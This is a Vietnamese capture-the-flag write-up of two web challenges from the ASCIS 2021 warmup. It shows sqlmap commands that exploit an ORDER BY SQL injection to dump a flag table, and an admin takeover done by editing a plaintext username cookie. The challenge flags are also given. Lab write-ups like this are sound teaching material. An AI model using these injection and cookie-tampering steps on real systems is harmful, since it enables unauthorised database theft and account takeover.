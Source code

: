 Trong tuần qua, mình cùng với bạn của mình tham gia vòng Warmup của ASCIS 2021, mình xin được phép chia sẻ lại 2 bài web trong giải với mọi người.
## Hitech shop
Khi vào challenge, mình có thể thấy một số vùng có khả năng có lỗi sqli, ban đầu mình khá tập trung vào vùng `search` nhưng thật tiếc là với bất kì payload nào mình truyền vào cũng đều thất bại.

![](img1.png)

Mình chuyển qua phần sort, ở đây có sắp xếp theo Name và Price, chỗ này mình có gặp khó khăn, sau một hồi thì bạn mình bảo mình thử sài sqlmap đi. Mình chưa từng sài sqlmap trước đây, trước giờ mình toàn né việc phải sài sqlmap. Nhân cơ hội này thì mình sẽ thử học và sài sqlmap luôn :')))

List databases:

```
sqlmap -u http://125.235.240.166:20105/index?order=name --dbs
```
![](img3.png)

List tables of vannd's database:

```
sqlmap -u http://125.235.240.166:20105/index?order=name -D vannd --tables
```
![](img4.png)

List colums of flag table:

```
sqlmap -u http://125.235.240.166:20105/index?order=name -D vannd --tables -T flag --columns
```
![](img5.png)

Dump value in secert column:

```
sqlmap -u http://125.235.240.166:20105/index?order=name -D vannd --tables -T flag --columns -C secret --dump
```
![](img6.png)

***Flag: ASCIS{SQL_1nJecTi0n_Ba5e_0N_OrdeR_bY}***

## yeuvcs

Ở challenge này, chúng ta sẽ thấy một trang đăng nhập, ở đây chúng ta có thể thấy một tùy chọn để đăng kí tài khoản

Thực hiện đăng kí một tài khoản mới và đăng nhập với tài khoản này.

![](img7.png)

Sau khi đăng nhập, chúng ta sẽ thấy một phần search, phần search này cho phép chúng ta search username của tất cả account, mình search với key là `%` để list mọi username:

![](img8.png)

Mình thấy một user có tên là sonnh, bên cạnh tên này có hình ngôi sao, rất có thể đây là admin.

Kiểm tra trong phần cookie, mình thấy có một cookie có tên là username có value là username của account chúng ta đang đăng nhập. Không biết liệu nó có work không nhưng mình vẫn thử đổi value này thành sonnh (tức admin):

![](img9.png)

Chọn `GET SECRET`, chúng ta sẽ có được flag.

***Flag: ASCIS{I_cant_find_name_for_4_fl4g}***

## End.
## _Thank you for your reading!_
